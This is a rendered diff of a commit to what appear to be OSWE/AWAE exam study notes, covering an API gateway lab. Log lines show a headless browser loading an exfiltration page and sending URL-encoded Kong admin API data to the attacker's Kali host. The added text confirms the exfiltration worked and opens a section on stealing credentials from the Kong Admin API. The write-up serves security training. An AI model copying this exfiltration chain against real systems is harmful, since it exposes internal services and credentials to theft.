

Before and after one commit to m0hammad-yaser/OSWE-AWAE-Notes, a Markdown page: apigateway/README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/apigateway/README.md
+++ b/apigateway/README.md
@@ -623,3 +623,5 @@ kali@kali:~$ sudo tail /var/log/apache2/access.log
 192.168.120.135 - - [25/Feb/2021:13:18:47 -0500] "GET /exfil.html HTTP/1.1" 200 562 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36"
 192.168.217.135 - - [29/Jul/2025:13:01:10 -0400] "GET /callback?%7B%22plugins%22%3A%7B%22enabled_in_cluster%22%3A%5B%22key-auth%22%5D%2C%22available_on_server%22%3A%7B%22grpc-web%22%3Atrue%2C%22correlation-id%22%3Atrue%2C%22...042%2C%22mem_cache_size%22%3A%22128m%22%2C%22pg_max_concurrent_queries%22%3A0%2C%22nginx_main_worker_p" 414 0 "-" "-"
 ```
+Excellent. Our JavaScript function sent a request to the internal endpoint, then sent that response as a URL-encoded value back to our Kali host. The message might have been truncated, but our JavaScript function worked.
+### Stealing Credentials from Kong Admin API
````
